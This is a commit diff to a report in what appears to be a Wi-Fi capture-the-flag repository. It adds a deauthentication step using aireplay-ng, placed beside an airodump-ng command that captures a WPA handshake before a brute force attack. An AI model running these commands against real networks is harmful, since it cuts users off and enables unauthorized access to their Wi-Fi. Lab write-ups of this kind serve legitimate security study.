

Before and after one commit to cibero42/Wifi-CTF, a Markdown page: REPORT.md, the part around one of its changes. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Atualizar o REPORT.md

````diff
--- a/REPORT.md
+++ b/REPORT.md
@@ -134,6 +134,12 @@ sudo airodump-ng wlan0mon
 ```
 
 #### Step 3 : Capture Handshake
+To capture the Handshake, we need first to deauthenticate the user and when he tries to reauthenticate we will be able to capture the Handshake.
+To deauthenticate users from the target WIFI network, we need to run this command :
+```
+sudo aireplay-ng --deauth 100 -a [BSSID] wlan0mon --ignore-negative-one
+```
+
 Before initiating the Brute Force attack, capture the handshake of the target WPA Wi-Fi network using a tool like Airodump-ng:
 ```
 airodump-ng wlan0 --channel [channel_number] --bssid [BSSID] -w capture_file
````
Also changed, not shown: other parts of REPORT.md (+0 -1 lines).
